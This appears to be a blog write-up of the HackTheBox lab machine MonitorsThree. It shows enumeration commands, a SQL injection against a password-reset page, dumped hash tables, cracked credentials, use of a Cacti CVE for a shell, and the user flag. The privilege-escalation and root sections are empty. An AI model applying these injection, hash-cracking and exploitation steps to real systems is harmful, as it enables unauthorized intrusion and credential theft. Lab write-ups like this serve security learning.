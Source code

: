 ```yaml
---
layout: post
title: "HackTheBox: MonitorsThree - Writeup 19/09/2024"
description: A writeup for Hackthebox Cicada
date:   2024-09-19 12:06:31 +0000
image:  '/images/post/monitorsthree.jpg'
tags:   [Hackthebox]
---
```

## Setup
`mkdir -p ~/ctf/HackTheBox/monitorsthree/scans; cd ~/ctf/HackTheBox/monitorsthree`
IP Address: 10.10.11.30


`echo "10.10.11.30 monitorsthree.htb" | sudo tee -a /etc/hosts`
10.10.11.30 monitorsthree.htb
***
### Enumeration 
![1b72642bca17d8635c49f8d56e7de859.png]({{site.baseurl}}/images/post/1b72642bca17d8635c49f8d56e7de859.png)
`nmap -sC -sV -Pn -p- monitorsthree.htb -oN scans/nmap -vv`
`nmap -sC -sV -p- -T5 --min-rate 2500 -oN scans/nmap_2 monitorsthree.htb`
```
# nmap findings

```

`gobuster dir --no-error -e -x php,html,txt -u http://monitorsthree.htb -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 100 --output scans/gobuster`


[Gobuster Cheatsheet](https://linuxcscom.wordpress.com/gobuster/)
```
# gobuster findings

```

`feroxbuster --url http://monitorsthree.htb -d 2 -x php,html,txt --output scans/feroxbuster`
```
# ferox buster findings

```

`wfuzz -c -u https://monitorsthree.htb -H "Host: FUZZ.monitorsthree.htb" -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt --oF scans/wfuzz_subdomain`
```
#Wfuzz Subdomain Finder 
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://monitorsthree.htb/
Total requests: 114441

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                                                         
=====================================================================

000000246:   302        0 L      0 W        0 Ch        "cacti"       
```

using `'`  in http://monitorsthree.htb/forgot_password.php we find sql error and use Ghauri for SQL injection: 

![135e5b6ec2acf567cee994423c6cd01f.png]({{site.baseurl}}/images/post/135e5b6ec2acf567cee994423c6cd01f.png)

Database: monitorsthree_db
Table: users
[4 entries]
+----+-----------+-----------------------------+----------------------------------+-------------------+-----------------------+------------+------------+-----------+
| id | username  | email                       | password                         | name              | position              | dob        | start_date | salary    |                                            
+----+-----------+-----------------------------+----------------------------------+-------------------+-----------------------+------------+------------+-----------+                                            
| 2  | admin     | admin@monitorsthree.htb     | 31a181c8372e3afc59dab863430610e8 | Marcus Higgins    | Super User            | 1978-04-25 | 2021-01-12 | 320800.00 |                                            
| 7  | dthompson | mwatson@monitorsthree.htb   | c585d01f2eb3e6e1073e92023088a3dd | Michael Watson    | Website Administrator | 1985-02-15 | 2021-05-10 | 75000.00  |                                            
| 6  | janderson | janderson@monitorsthree.htb | 1e68b6eb86b45f6d92f8f292428f77ac | Jennifer Anderson | Network Engineer      | 1990-07-30 | 2021-06-20 | 68000.00  |                                            
| 5  | mwatson   | dthompson@monitorsthree.htb | 633b683cc128fe244b00f176c8a950f5 | David Thompson    | Database Manager      | 1982-11-23 | 2022-09-15 | 83000.00  |                                            
+----+-----------+-----------------------------+----------------------------------+-------------------+-----------------------+------------+------------+-----------+                                            

[22:50:02] [INFO] table 'monitorsthree_db.users' dumped to CSV file '/home/w3rew01f/.ghauri/monitorsthree.htb/dump/monitorsthree_db/users.csv'



Using hashcat hashid and rockyou list we crack the hash:
![96cbaa7dc84d9ec21c202cebfb397f2f.png]({{site.baseurl}}/images/post/96cbaa7dc84d9ec21c202cebfb397f2f.png)

`admin:greencacti2001`

Nothing useful in `http://monitorsthree.htb/admin` and `http://monitorsthree.htb/login`

The version of cacti is vulnerable to [CVE-2024-25641](https://www.rapid7.com/db/modules/exploit/multi/http/cacti_package_import_rce/)

![9f60245f96b99a6ee4f5393cf58f4847.png]({{site.baseurl}}/images/post/9f60245f96b99a6ee4f5393cf58f4847.png)

we get a shell but no access to marcus 

using linpeas we find a database 
![60662f54ca3a5036f1555b8e13eae8ff.png]({{site.baseurl}}/images/post/60662f54ca3a5036f1555b8e13eae8ff.png)
Active 3306 port here 
![23ee3a00966866b1073ba303489c6e0e.png]({{site.baseurl}}/images/post/23ee3a00966866b1073ba303489c6e0e.png)



+----+----------+--------------------------------------------------------------+-------+---------------+--------------------------+----------------------+-----------------+-----------+-----------+--------------+----------------+------------+---------------+--------------+--------------+------------------------+---------+------------+-----------+------------------+--------+-----------------+----------+-------------+
| id | username | password                                                     | realm | full_name     | email_address            | must_change_password | password_change | show_tree | show_list | show_preview | graph_settings | login_opts | policy_graphs | policy_trees | policy_hosts | policy_graph_templates | enabled | lastchange | lastlogin | password_history | locked | failed_attempts | lastfail | reset_perms |
+----+----------+--------------------------------------------------------------+-------+---------------+--------------------------+----------------------+-----------------+-----------+-----------+--------------+----------------+------------+---------------+--------------+--------------+------------------------+---------+------------+-----------+------------------+--------+-----------------+----------+-------------+
|  1 | admin    | $2y$10$tjPSsSP6UovL3OTNeam4Oe24TSRuSRRApmqf5vPinSer3mDuyG90G |     0 | Administrator | marcus@monitorsthree.htb |                      |                 | on        | on        | on           | on             |          2 |             1 |            1 |            1 |                      1 | on      |         -1 |        -1 | -1               |        |               0 |        0 |   436423766 |
|  3 | guest    | $2y$10$SO8woUvjSFMr1CDo8O3cz.S6uJoqLaTe6/mvIcUuXzKsATo77nLHu |     0 | Guest Account | guest@monitorsthree.htb  |                      |                 | on        | on        | on           |                |          1 |             1 |            1 |            1 |                      1 |         |         -1 |        -1 | -1               |        |               0 |        0 |  3774379591 |
|  4 | marcus   | $2y$10$Fq8wGXvlM3Le.5LIzmM9weFs9s6W2i1FLg3yrdNGmkIaxo79IBjtK |     0 | Marcus        | marcus@monitorsthree.htb |                      | on              | on        | on        | on           | on             |          1 |             1 |            1 |            1 |                      1 | on      |         -1 |        -1 |                  |        |               0 |        0 |  1677427318 |
+----+----------+--------------------------------------------------------------+-------+---------------+--------------------------+----------------------+-----------------+-----------+-----------+--------------+----------------+------------+---------------+--------------+--------------+------------------------+---------+------------+-----------+------------------+--------+-----------------+----------+-------------+

Using hashcat we get the password for marcus
![4b6eb0c5fb608ca27e0d603cfe9ba554.png]({{site.baseurl}}/images/post/4b6eb0c5fb608ca27e0d603cfe9ba554.png)

`marcus:12345678910`
Succesfull Login 
![d13817ed04784ca5bedde6b5c6dbbbb7.png]({{site.baseurl}}/images/post/d13817ed04784ca5bedde6b5c6dbbbb7.png)

***
# user flag
Location: /home/marcus | Flag: 37bbbc1d93cfa2cea936fc82279720e3

#### Privilege Escalation



***
# root flag
Location:  | Flag: 
```

```